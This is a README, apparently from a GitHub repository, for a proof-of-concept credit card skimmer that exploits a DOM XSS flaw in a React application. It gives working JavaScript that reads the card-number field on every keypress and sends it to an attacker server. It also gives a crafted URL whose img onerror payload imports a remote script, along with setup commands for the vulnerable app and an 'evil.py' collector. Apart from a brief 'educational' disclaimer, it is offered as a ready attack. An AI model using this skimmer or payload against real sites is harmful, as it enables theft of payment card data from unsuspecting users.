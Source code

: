 # Simple Credit Card Theft POC

This exploit takes advantage of a DOM XSS security issue on a react application. The user is tricked into clicking on a crafted URL which loads malicious javascript from an external server. This javascript reads the form field containing the credit card number and sends it to the attacker owned server. This is for educational purposes only :)

![Alt text](/img/cc_collection.png "Optional title")


On every keypress, read the data containing the credit card number and send it to the attacker controlled server via a `GET` request.
```
function sendreq(cc) {
    var url = "http://localhost:8000?cc=" + cc;
    var req = new XMLHttpRequest();
    req.open("GET", url, true);
    req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    req.send();
}

document.addEventListener('keydown', (event) => {
    sendreq(document.querySelector('form')[2].textContent);
}, false);
```

# Setup

## Terminal 1
`git clone https://github.com/thecasual/xss_cc_skimmer_poc`

`cd xss_cc_skimmer_poc/xss`

`npm install .`

`npm start`


## Terminal 2
`cd xss_cc_skimmer_poc/server2`

`python .\evil.py`

Navigate: `http://localhost:3000/?name=%3Cbutton%3E%27%3E%3Cimg%20src=x%20onerror=import(%22http://localhost:8000/steal.js%22)%3E%3C/button%3E`


Have fun!